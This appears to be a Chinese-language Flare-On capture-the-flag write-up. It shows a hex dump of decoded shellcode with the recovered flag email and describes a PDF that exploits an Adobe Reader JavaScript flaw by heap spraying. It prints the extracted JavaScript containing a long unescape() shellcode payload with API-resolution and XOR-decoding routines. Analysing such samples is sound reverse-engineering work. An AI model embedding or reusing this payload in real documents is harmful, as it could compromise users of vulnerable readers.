 ```

0012FE31  01 00 00 83 F9 00 7E 0E 81 36 62 4F 6C 47 83 C6  ..凒.~?bOlG兤
0012FE41  04 83 E9 04 EB ED 8D 80 00 00 00 00 8D 80 00 00  冮腠崁....崁..
0012FE51  00 00 90 90 90 90 68 72 3F 21 3F 68 20 6F 76 65  ..悙悙hr?!?h ove
0012FE61  68 6D 6F 73 74 68 74 20 61 6C 68 69 73 20 69 68  hmostht alhis ih
0012FE71  6F 6D 67 20 89 E3 E8 00 00 00 00 8B 34 24 83 C6  omg 夈?...?$兤
0012FE81  2D 89 F1 81 C1 D6 00 00 00 89 D8 83 C0 18 39 D8  -夞伭?..壺兝9
0012FE91  75 05 89 E3 83 C3 04 39 CE 74 08 8A 13 30 16 43  u夈兠9蝨?0C
0012FEA1  46 EB EB E9 1D 00 00 00 73 75 63 68 2E 35 68 33  F腚?...such.5h3
0012FEB1  31 31 30 31 30 31 30 31 40 66 6C 61 72 65 2D 6F  11010101@flare-o
0012FEC1  6E 2E 63 6F 6D 68 6E 74 00 00 68 20 73 70 65 68  n.comhnt..h speh

```

邮箱地址:

```
such.5h311010101@flare-on.com

```

* * *

第四题
---

APT攻击, 通过利用Adobe PDF Reader的JS函数漏洞构造堆喷射执行shellcode...

下面这段JS代码就是从这个PDF中提取出来的:

```
var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";
```